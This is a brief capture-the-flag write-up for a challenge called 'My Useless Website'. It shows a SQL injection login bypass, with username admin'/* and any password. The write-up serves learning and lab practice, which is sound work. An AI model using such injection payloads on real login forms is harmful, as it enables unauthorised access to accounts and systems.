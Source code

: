 # My Useless Website

In this challenge we are presented with a login in screen.\
Ahh the first thing comes in mind when I see a login screen is SQLI... yes SQLI

**Payload**

```
username: admin'/*
password: random
```

![login image](login.png)

![flag](flag.png)
